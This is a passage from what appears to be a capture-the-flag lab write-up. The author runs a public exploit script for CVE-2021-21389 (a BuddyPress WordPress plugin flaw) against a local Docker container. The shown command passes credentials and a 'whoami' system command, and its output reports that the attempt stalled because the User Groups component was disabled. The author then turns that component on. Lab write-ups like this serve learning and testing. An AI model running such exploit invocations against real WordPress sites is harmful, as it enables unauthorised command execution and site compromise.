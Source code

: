 <br>

<img src="../../images/redirect_not_enabled.png" alt="php_screenshot" style="width:400px;"/>

<br><br>
And now the redirect works... (green background).<br>
So I'll try the exploit once again<br>
<br>

```
@ubuntu:~/Docker/ctf/ctfWPbuddypress/CVE-2021-21389$ python3 CVE-2021-21389.py http://172.17.0.3 test2 1234 whoami
[+] Try to register ...
[+] Try to login ...
[+] Login successfully!
[+] Creating new group to get X-WP-Nonce
[-] The site needs to enable User Groups component!
```

<br><br>
I'm guessing that's a group policy within the plugsin... I found a "User Groups" option, so I'll try that.<br>

<br>

<img src="../../images/buddypress_groups.png" alt="php_screenshot" style="width:400px;"/>
